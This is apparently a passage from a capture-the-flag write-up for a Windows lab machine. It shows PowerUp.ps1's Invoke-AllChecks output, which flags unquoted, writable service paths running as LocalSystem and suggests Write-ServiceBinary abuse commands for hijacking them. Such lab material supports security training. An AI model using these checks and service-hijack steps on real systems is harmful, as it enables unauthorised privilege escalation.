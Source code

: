 We got this:
```
PS > . .\PowerUp.ps1
PS > Invoke-Allchecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
Name           : AWSLiteAgent
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
```